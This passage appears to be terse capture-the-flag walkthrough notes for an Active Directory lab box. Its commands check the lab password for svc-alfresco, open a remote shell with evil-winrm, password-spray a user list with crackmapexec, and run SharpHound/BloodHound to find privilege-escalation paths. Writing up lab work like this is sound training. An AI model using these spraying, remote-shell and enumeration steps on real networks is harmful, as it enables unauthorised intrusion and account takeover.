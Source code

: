 Check the cred.

```bash
# check passwod.
crackmapexec smb $tip -u svc-alfresco -p s3rvice --shares
```



connect via wimrm.

```bash
evil-winrm -u svc-alfresco -p s3rvice -i $tip
```



## password spray.

```bash
crackmapexec smb $tip -u users.txt -p s3rvice --shares
```

nothing.





# Privesc



## local enum

winpeas enum, nothing.  Use the smbshare to upload, or evil-winrm upload.



Bloodhound, enum.

```bash
upload sharphound.exe 
sharphound.exe -c all
```

set svc-alfresco as owned,  shortest path from owned principals.

svc-alfresco member of service accounts  group,  member of privileged it accounts, member of account operators. 
